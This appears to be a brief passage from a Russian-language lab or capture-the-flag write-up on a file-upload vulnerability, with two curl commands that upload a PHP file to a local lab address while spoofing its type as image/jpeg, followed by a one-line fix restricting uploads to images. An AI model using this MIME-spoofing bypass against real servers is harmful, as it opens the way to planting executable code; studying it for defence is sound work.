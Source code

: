 echo '<?php echo "File Upload" ?>' > /tmp/script.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/script.php;type=image/jpeg" "http://192.168.56.110/index.php?page=upload" > script.html

curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://192.168.56.110/index.php\?page\=upload > script.html



Как защититься?
1. Ограничить формат загружаемых файлов, чтобы выгрузить можно было только изображения.

